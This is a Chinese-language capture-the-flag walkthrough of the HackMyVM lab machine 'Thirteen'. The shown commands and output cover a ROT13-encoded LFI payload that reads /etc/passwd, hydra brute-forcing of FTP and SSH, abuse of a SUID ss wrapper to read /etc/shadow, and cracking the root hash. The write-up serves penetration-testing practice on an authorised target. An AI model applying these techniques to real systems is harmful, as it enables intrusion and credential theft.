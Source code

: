 > Tip
>
> 靶机地址：https://hackmyvm.eu/machines/machine.php?vm=Thirteen

# **一、信息收集**

## **1. 主机发现**

首先，在本地网络中使用 `arp-scan` 工具扫描存活主机，确定目标靶机的 IP 地址为 `192.168.205.250`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.250 08:00:27:c5:ec:3b       PCS Systemtechnik GmbH
...
```

## **2. 端口与服务扫描**

使用 `nmap` 对目标主机进行全端口扫描，发现其开放了 21 (FTP)、22 (SSH) 和 80 (HTTP) 三个端口。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- 192.168.205.250
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-05 07:00 EDT
Nmap scan report for 192.168.205.250
Host is up (0.00012s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

## **3. Web 服务探索**

访问 80 端口，页面显示为一个 "iCloud Secure Vault"，提示输入加密路径来访问文件。页面上有三个链接，其 `href` 属性指向了经过 ROT13 加密的文件名。

*   `?theme=jrypbzr.gkg` -> `?theme=welcome.txt`
*   `?theme=pbasvt.gkg` -> `?theme=config.txt`
*   `?theme=ernqzr.gkg` -> `?theme=readme.txt`

这表明 Web 应用存在本地文件包含 (LFI) 漏洞，通过 ROT13 加密构造 Payload 即可读取任意文件。利用该漏洞读取 `/etc/passwd` 文件，以发现系统上的有效用户。

**ROT13 加密 `/etc/passwd` -> `/rgp/cnffjq`**

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl http://192.168.205.250/?theme=/rgp/cnffjq
...
welcome:x:1000:1000:,,,:/home/welcome:/bin/bash
max:x:1001:1001::/home/max:/bin/bash
...
```

从返回内容中，我们识别出两个可登录的用户：`welcome` 和 `max`。

## **4. FTP 服务探索**

使用 `hydra` 和默认凭据字典对 FTP 服务进行爆破，成功获得 `ADMIN` 用户的密码为 `12345`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.205.250 -I -u -f -e nsr -t 64
...
[21][ftp] host: 192.168.205.250   login: ADMIN   password: 12345
...
```

登录 FTP 服务器后，发现 `ftp_server.py` 和 `rev.sh` 两个文件，但这些文件在此次渗透中未提供关键利用点。

# **二、初始访问**

## **1. 漏洞利用：SSH 弱口令爆破**

通过前面 LFI 漏洞访问到的 `welcome.txt` 文件，里面包含一个名字列表。我们将这个列表与之前发现的用户名 (`max`, `welcome`) 结合，使用 `cupp` 工具生成一个针对性的密码字典 `user.cupp.txt`。

随后，使用 `hydra` 对 22 端口的 SSH 服务进行弱口令爆破。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cat user
max
welcome
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ hydra -L user -P user.cupp.txt ssh://192.168.205.250 -I -u -e nsr -t 64
...
[22][ssh] host: 192.168.205.250   login: max       password: Ellyas2018
[22][ssh] host: 192.168.205.250   login: welcome   password: Zakaria2020
...
```

爆破成功，获得两组凭据：`max:Ellyas2018` 和 `welcome:Zakaria2020`。

## **2. 获取 Shell**

使用 `max` 用户的凭据通过 SSH 成功登录到目标系统。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ ssh max@192.168.205.250
max@192.168.205.250's password: Ellyas2018
...
max@13max:~$ id
uid=1001(max) gid=1001(max) groups=1001(max)
```

# **三、权限提升**

## **1. 水平提升：max -> welcome**

登录 `max` 账户后，首先查看当前用户权限和系统中的 SUID 文件。

```bash
max@13max:~$ find / -perm -4000 -type f 2>/dev/null
...
/usr/local/bin/supersuid
...
max@13max:~$ ls -la /usr/local/bin/supersuid
-rwsr-sr-- 1 root welcome 161488 Jul  4 10:37 /usr/local/bin/supersuid
```

发现一个名为 `supersuid` 的 SUID 文件，其所有者为 `root`，所属组为 `welcome`。`max` 用户不属于 `welcome` 组，因此无法执行此文件。

利用之前爆破出的 `welcome` 用户密码 `Zakaria2020`，切换到 `welcome` 用户。

```bash
max@13max:~$ su welcome
Password: Zakaria2020
welcome@13max:~$ id
uid=1000(welcome) gid=1000(welcome),1001(max) groups=1000(welcome)
```

成功切换后，在 `welcome` 的家目录中找到并读取 `user.flag`。

```bash
welcome@13max:~$ cat /home/welcome/user.flag
flag{user-a89162ba751904d59ebd8fed2fce8880}
```

## **2. 垂直提升：welcome -> root**

切换到 `welcome` 用户后，我们现在有权限执行 `/usr/local/bin/supersuid`。执行命令之后，根据经验之谈判断`supersuid`其实是`ss`命令的封装，通过查询 GTFOBins ，可知 `ss` 命令在 SUID 上下文中可以被用来读取任意文件。

利用这个特性，读取 `/etc/shadow` 文件，获取 `root` 用户的密码哈希。

```bash
welcome@13max:~$ /usr/local/bin/supersuid -a -F /etc/shadow
Error: an inet prefix is expected rather than "root:$6$Cax26XI4SpAAItdE$7iVSsRoQT/o0b3.V9jMiljdau506ePGmZLkIl5JH9COngDqdXJkGnizRIhaLJu/JbwWZ.7XyF/MwzuDusZJcg1:20273:0:99999:7:::".
Cannot parse dst/src address.
```

虽然命令报错，但错误信息中已经泄露了 `root` 用户的哈希值。将哈希保存到本地文件，并使用 `john` 和 `rockyou.txt` 字典进行破解。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
...
april7th         (root)
...
```

成功破解出 `root` 用户的密码为 `april7th`。

最后，使用 `su` 命令和破解的密码切换到 `root` 用户。

```bash
welcome@13max:~$ su -
Password: april7th
root@13max:~# id
uid=0(root) gid=0(root) groups=0(root)
```

# **四、夺取旗帜**

成功获取 `root` 权限后，读取全部 `flag`。

```bash
root@13max:~# cat /root/root.flag /home/welcome/user.flag 
flag{root-aaa245a6e5a82937c985c50c86282892}
flag{user-a89162ba751904d59ebd8fed2fce8880}
```

至此，渗透测试完成。